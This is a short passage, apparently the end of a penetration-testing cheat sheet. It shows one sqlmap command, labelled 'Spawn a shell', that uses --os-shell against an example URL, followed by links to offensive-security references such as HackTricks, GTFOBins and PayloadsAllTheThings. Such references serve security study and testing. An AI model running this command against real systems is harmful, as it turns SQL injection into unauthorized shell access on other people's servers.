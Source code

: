 # Spawn a shell
sqlmap -u "http://www.example.com/?id=1" --os-shell
```
## Useful Resources
- [HackTriks](https://book.hacktricks.xyz/)
- [WADCOMS](https://wadcoms.github.io/#+SMB+Windows)
- [GTFOBins](https://gtfobins.github.io/)
- [SwissKeyRepo - Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [Living Of The Land Binaries and Scripts for Windows](https://lolbas-project.github.io/#)
- [Active Directory MindMap](https://orange-cyberdefense.github.io/ocd-mindmaps/)
- [Precompiled .NET Binaries](https://github.com/jakobfriedl/precompiled-binaries)
